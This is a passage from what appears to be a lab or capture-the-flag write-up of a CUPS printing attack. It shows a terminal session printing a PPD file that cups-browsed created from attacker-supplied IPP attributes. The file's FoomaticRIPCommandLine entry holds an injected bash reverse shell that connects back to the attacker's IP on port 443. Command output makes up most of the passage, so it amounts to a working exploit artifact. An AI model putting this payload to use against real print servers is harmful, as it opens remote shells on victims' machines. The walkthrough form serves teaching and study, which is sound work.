 When I create a printer over `cups-browsed` like this, it reached out over IPP to the given URL. The resulting attributes are saved as a `.ppd` file, which is located in `/etc/cups/ppd` named after the printer name:

```

root@evilcups:/etc/cups/ppd# ls
HACKED_10_10_14_6.ppd
root@evilcups:/etc/cups/ppd# cat HACKED_10_10_14_6.ppd
*PPD-Adobe: "4.3"
*APRemoteQueueID: ""
*FormatVersion: "4.3"
*FileVersion: "1.28.17"
*LanguageVersion: English
*LanguageEncoding: ISOLatin1
*PSVersion: "(3010.000) 0"
*LanguageLevel: "3"
*FileSystem: False
*PCFileName: "drvless.ppd"
*Manufacturer: "HP"
*ModelName: "HP 0.00"
*Product: "(HP 0.00)"
*NickName: "HP 0.00, driverless, cups-filters 1.28.17"
*ShortNickName: "HP 0.00"
*DefaultOutputOrder: Normal
*ColorDevice: True
*cupsVersion: 2.4
*cupsSNMPSupplies: False
*cupsLanguages: "en"
*APSupplies: ""
*FoomaticRIPCommandLine: "bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1""
*cupsFilter2 : "application/pdf application/vnd.cups-postscript 0 foomatic-rip"
*cupsFilter2: "application/vnd.cups-pdf application/pdf 200 -"
*% Printer did not supply page size info via IPP, using defaults
*OpenUI *PageSize/Media Size: PickOne
*OrderDependency: 10 AnySetup *PageSize
*DefaultPageSize: Letter
*PageSize Letter/US Letter: "<</PageSize[612 792]>>setpagedevice"
*PageSize Legal/US Legal: "<</PageSize[612 1008]>>setpagedevice"
*PageSize Executive/Executive: "<</PageSize[522 756]>>setpagedevice"
*PageSize Tabloid/Tabloid: "<</PageSize[792 1224]>>setpagedevice"
*PageSize A3/A3: "<</PageSize[842 1191]>>setpagedevice"
*PageSize A4/A4: "<</PageSize[595 842]>>setpagedevice"
*PageSize A5/A5: "<</PageSize[420 595]>>setpagedevice"
*PageSize B5/JIS B5: "<</PageSize[516 729]>>setpagedevice"
*PageSize EnvISOB5/Envelope B5: "<</PageSize[499 709]>>setpagedevice"
*PageSize Env10/Envelope #10 : "<</PageSize[297 684]>>setpagedevice"
*PageSize EnvC5/Envelope C5: "<</PageSize[459 649]>>setpagedevice"
*PageSize EnvDL/Envelope DL: "<</PageSize[312 624]>>setpagedevice"
*PageSize EnvMonarch/Envelope Monarch: "<</PageSize[279 540]>>setpagedevice"
*CloseUI: *PageSize
*OpenUI *PageRegion/Media Size: PickOne
*OrderDependency: 10 AnySetup *PageRegion
*DefaultPageRegion: Letter
*PageRegion Letter/US Letter: "<</PageSize[612 792]>>setpagedevice"
*PageRegion Legal/US Legal: "<</PageSize[612 1008]>>setpagedevice"
*PageRegion Executive/Executive: "<</PageSize[522 756]>>setpagedevice"
*PageRegion Tabloid/Tabloid: "<</PageSize[792 1224]>>setpagedevice"
*PageRegion A3/A3: "<</PageSize[842 1191]>>setpagedevice"
*PageRegion A4/A4: "<</PageSize[595 842]>>setpagedevice"
*PageRegion A5/A5: "<</PageSize[420 595]>>setpagedevice"
*PageRegion B5/JIS B5: "<</PageSize[516 729]>>setpagedevice"
*PageRegion EnvISOB5/Envelope B5: "<</PageSize[499 709]>>setpagedevice"
*PageRegion Env10/Envelope #10 : "<</PageSize[297 684]>>setpagedevice"
```